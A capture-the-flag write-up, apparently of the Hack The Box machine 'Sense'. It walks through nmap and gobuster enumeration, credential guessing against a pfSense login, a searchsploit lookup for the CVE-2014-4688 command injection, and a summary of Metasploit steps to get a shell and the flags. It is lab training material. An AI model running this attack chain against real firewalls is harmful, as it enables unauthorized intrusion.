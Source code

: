 ![[Pasted image 20220805103056.png]]
#pfsense #CVE-2014-4688
# Lessons Learned
---
1. -k flag on gobuster allows for scanning of https sites with invalid certificates
2. Using more extensive wordlists can be critical to enumeration
	1. Including adding extensions like txt, php, etc
3. Need to get better at modifying existing pyhton scripts rather than relying on meterpreter when that isn't going my way
# Enumeration
---
## Nmap
```bash
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -sV $sense > nmap.txt
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-05 17:42 BST
Nmap scan report for 10.10.10.60
Host is up (0.027s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds
```

## Gobuster
### Attempt 1
Had to use the -k flag to ignore the invalid certificate:
```bash
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirb/common.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/05 17:46:53 Starting gobuster in directory enumeration mode
===============================================================
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]    
/favicon.ico          (Status: 200) [Size: 1406]                                
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/index.html           (Status: 200) [Size: 329]                                  
/index.php            (Status: 200) [Size: 6690]                                 
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
Progress: 2287 / 4615 (49.56%)                                                  Progress: 2457 / 4615 (53.24%)                                                  Progress: 2834 / 4615 (61.41%)                                                  Progress: 3169 / 4615 (68.67%)                                                  Progress: 3353 / 4615 (72.65%)                                                  Progress: 3672 / 4615 (79.57%)                                                  Progress: 4034 / 4615 (87.41%)                                                  /themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]    
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]      
Progress: 4396 / 4615 (95.25%)                                                  /widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                    
                                                                                   
===============================================================
2022/08/05 17:47:00 Finished
===============================================================
```

### Attempt 2
```bash
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.60
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2022/08/05 18:16:57 Starting gobuster in directory enumeration mode
===============================================================
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]   
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]                                    
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]   
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]   
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]      
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/] 
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]   
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]      
/system-users.txt     (Status: 200) [Size: 106]                                    
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
```

## Manual Discovery
Navigating to the site, it appears to be a login for a pf sense device (typically a firewall)
![[Pasted image 20220805104459.png]]

From gobuster results, we saw index.html had a 200 code, navigating here presents the following:
![[Pasted image 20220805105026.png]]

The 'Begin Installation' link points to: https://10.10.10.60/dfuife.cgi
Clicking this loads infinitely.

/changelog.txt presents the following information (from gobuster attempt #2)
```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

/system-users.txt presents the following information (from gobuster attempt #2)
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Tried combinations of Rohit:Rohit, rohit:rohit, etc etc without any luck
Tried combinations of pfsense default password without any luck: Admin:pfsense, root:pfsense, etc
Tried combinations of these and eventually logged into to the console successfully with rohit:pfsense

## PFsense Interface
Dashboard demonstrates that the pfsense version running is:
```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
Unable to check for updates.
```

## Searchsploit
Checked searchsploit for known vulnerabilities for this version of pfsense:
```bash
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit pfsense 2.1.3
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                          | php/webapps/43560.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
─[us-vip-27]─[10.10.14.9]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ searchsploit -w 43560
--------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                               |  URL
--------------------------------------------------------------------------------------------- --------------------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                               | https://www.exploit-db.com/exploits/43560
--------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

Here is the link to the [CVE](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) 
Here is a link to the [python script](https://www.exploit-db.com/exploits/43560)

# Exploitation
---
I hate doing it, but after many attempts to manipulate the .py file to my liking I was unable to get it to run. I ended up using metasploit.

Performed the following actions (a summary):
```bash
msfconsole
search pfsense
select (exploit number)
show options
configured lhost, rhost, user, password, lport
exploit
find /* -name user.txt
find /* -name root.txt
```

Cat'd 'em out and submitted the flags